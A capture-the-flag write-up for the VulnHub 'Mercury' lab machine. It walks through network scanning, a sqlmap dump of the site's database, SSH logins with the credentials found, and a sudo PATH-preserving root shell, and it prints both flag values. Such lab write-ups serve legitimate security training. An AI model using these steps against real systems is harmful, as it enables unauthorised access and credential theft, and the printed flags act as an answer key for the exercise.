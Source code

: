 
# 🌌 The Planets: Mercury – VulnHub Write-up

**Difficulty:** Easy  
**Objective:** Gain root access and retrieve two flags: `user_flag.txt` and `root_flag.txt`

---

## 1. 🔍 Finding the IP Address

To begin, network discovery was conducted using Netdiscover to identify the IP address of the Mercury machine:

```bash
netdiscover -r 192.168.56.0/24
```

**Discovered IP:** `192.168.56.105`

---

## 2. 🚪 Port Scanning

A full port scan was performed using Nmap to identify open services:

```bash
nmap -sV 192.168.56.105
```

The web service on port 8080 appeared under development, but offered a starting point for enumeration.

---

## 3. 🌐 Web Enumeration and SQL Injection

Accessing the web service on port 8080 revealed a message indicating the site was under construction. An error page hinted at an interesting folder: `/mercuryfacts/`, which appeared to query a SQL database.

Use sqlmap to extract database contents:

```bash
sqlmap http://192.168.56.105:8080/mercuryfacts/ -D mercury --dump-all --batch
```

---

## 4. 🔐 SSH Access

With credentials extracted from the database, log into SSH:

```bash
ssh webmaster@192.168.56.105
```

Once logged in as the 'webmaster' user, retrieve the first flag:

**User flag:** `user_flag_8339915c9a454657bd60ee58776f4ccd`

---

## 5. 📓 Discovering Further Credentials

Inside the `webmaster` home directory, view the `Notes.txt` file:

```bash
cat Notes.txt
```

This file reveals credentials for a second user: `linuxmaster`.

Use the discovered credentials to SSH into that account:

```bash
ssh linuxmaster@localhost
```

---

## 6. 🏁 Root Access

From the `linuxmaster` account, escalate privileges using `sudo`:

```bash
sudo --preserve-env=PATH /bin/bash
```

This command preserves environment variables and grants a root shell. Retrieve the root flag:

```bash
cat /root/root_flag.txt
```

**Root flag:** `root_flag_69426d9fda579afbffd9c2d47ca31d90`

---
